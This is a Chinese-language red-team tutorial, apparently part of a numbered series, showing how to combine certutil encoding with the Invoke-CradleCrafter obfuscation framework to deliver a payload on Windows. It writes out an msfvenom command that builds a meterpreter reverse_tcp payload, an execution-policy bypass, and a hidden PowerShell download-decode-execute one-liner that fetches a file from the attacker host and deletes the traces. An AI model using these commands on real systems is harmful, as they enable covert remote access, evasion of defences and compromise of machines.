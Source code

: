第八季中提到了 certutil 的加密与解密。  

```bash
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
而配合 powershell 的内存加载，则可把 certutil 发挥更强大。

**靶机：windows 2012**

而今天需要的是一款 powershell 的混淆框架的配合  
https://github.com/danielbohannon/Invoke-CradleCrafter

使用方法：
```bash
Import-Module ./Invoke-CradleCrafter.psd1 Invoke-CradleCrafter
```  
![](/img/c62807cec766f0f6c92c2d821cd6ede3.jpg)

![](/img/5fd8400f05ad1fe156649bb7d4ab2726.jpg)

如果在加载 powershell 脚本的时候提示：**powershell
进行数字签运行该脚本。**
则先执行：
```bash
set-executionpolicy Bypass
```

生成payload：（有关生成payload，会在未来的系列中讲到）

```bash
root@John:/tmp# msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐e cmd/powershell_base64 ‐f psh ‐o Micropoor.txt
```

![](/img/316a532d526b20050d34d02f8f06e952.jpg)

![](/img/cfa22fb95c6b008829035e91928f47db.jpg)

**启动apache：**  
![](/img/d34911ee8f5ed23aaef4fe39846d7c4d.jpg)

**powershell框架设置：**

SET URL http://192.168.1.5/Micropoor.txt  
![](/img/bc3142653214ae8fd411b32efcdb77a8.jpg)

**MEMORY**  
![](/img/62d726b8feae58ada003965ac15cfe4a.jpg)

**CERTUTIL**  
![](/img/b700f3bfebafc44073df52b62d79d73c.jpg)

**ALL**  
![](/img/9b29ae29a5bf7fd27b9ded5b889844c4.jpg)

**1**  
![](/img/f14a65e3707c230527b14312400969e0.jpg)

**混淆内容保存txt，后进行encode**  
![](/img/17b242fcc60d1fa5eb54d8f2c6268331.jpg)

把 cer.cer 与 Micropoo.txt 放置同一目录下。  

**目标机执行：**  
```bash
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\\cer.cer (New‐Object Net.WebClient).DownloadString('http://192.168.1.5/cer.cer'); certutil ‐decode %APPDATA%\cer.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cer.cer
```

>   Micropoor
